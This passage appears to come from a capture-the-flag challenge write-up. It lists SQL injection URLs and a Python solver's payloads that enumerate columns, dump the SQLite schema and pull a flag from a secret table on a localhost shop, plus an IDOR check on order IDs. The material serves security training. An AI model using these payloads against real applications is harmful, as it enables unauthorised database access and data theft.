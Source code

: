 3. **Union-based Data Extraction:**
   ```
   http://localhost:3000/products/search?query=widget' UNION ALL SELECT 1,2,3,4,'test',6,7; --
   ```

4. **Database Schema Discovery:**
   ```
   http://localhost:3000/products/search?query=widget' UNION ALL SELECT 1,sql,3,4,'test',6,7 FROM sqlite_schema; --
   ```

5. **Flag Extraction:**
   ```
   http://localhost:3000/products/search?query=widget' UNION ALL SELECT 1,content,3,4,'test',6,7 FROM this_is_very_secret_long_table_names; --
   ```

### IDOR Testing

1. **Access other users' orders:**
   ```
   http://localhost:3000/orders/1  # Try different order IDs
   ```

## 🔍 Solution Analysis

The `solver/solve.py` script demonstrates an automated approach to exploiting the SQL injection vulnerability:

### Script Breakdown

```python
import requests

BASE_URL = "http://localhost:3000"
session = requests.Session()

# 1. Column enumeration payload
payload_1 = "widget' ORDER BY 7; --"

# 2. Union-based injection to test column structure
payload_2 = "widget' UNION ALL SELECT 1,2,3,4,'https://picsum.photos/seed/105/150',6,7; --"

# 3. Database version detection
payload_3 = "widget' UNION ALL SELECT sqlite_version(),sqlite_version(),3,4,'https://picsum.photos/seed/105/150',6,7; --"

# 4. Schema enumeration
payload_4 = "widget' UNION ALL SELECT 1,sql,3,4,'https://picsum.photos/seed/105/150',6,7 FROM sqlite_schema; --"

# 5. Flag extraction from secret table
payload_5 = "widget') UNION ALL SELECT 1,content,3,4,'https://picsum.photos/seed/105/150',6,7 FROM this_is_very_secret_long_table_names; --"
```
